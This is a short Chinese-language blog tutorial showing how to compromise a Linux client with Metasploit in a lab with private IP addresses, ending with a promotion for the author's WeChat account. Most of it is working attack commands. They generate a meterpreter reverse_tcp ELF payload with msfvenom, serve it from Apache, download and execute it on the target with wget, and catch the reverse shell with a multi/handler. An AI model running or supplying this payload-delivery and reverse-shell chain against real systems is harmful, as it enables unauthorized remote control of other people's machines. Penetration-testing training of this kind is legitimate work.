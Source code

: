 ```yaml
---
layout: post
category: binghe-code-hack
title: 使用Metasploit实现对Linux客户端的渗透
tagline: by 冰河
tag: [hack,binghe-code-hack]
excerpt: 使用Metasploit实现对Linux客户端的渗透
lock: need
---
```


# 使用Metasploit实现对Linux客户端的渗透

攻击机 Kali 192.168.175.128

靶机 CentOS 6.5 192.168.175.132

## 生成elf文件

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.175.128 LPORT=5555 -f elf > /var/www/html/pay.elf
```

这里，我们将生成的pay.elf文件保存到了/var/www/html/目录下。

## 启动apache服务器

```bash
service apache2 start
```

## 在靶机上下载pay.elf

这里，假设我们经过一系列的渗透取得了靶机的权限，在靶机上执行如下命令

```bash
wget http://192.168.175.128/pay.elf
chmod a+x pay.elf
./pay.elf
```

## 在攻击机上执行攻击操作

```bash
msfconsole
use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
setg LHOST 192.168.175.128
setg LPORT 5555
exploit
```

这样，我们就可以获取目标服务器的Meterpreter了。


## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)
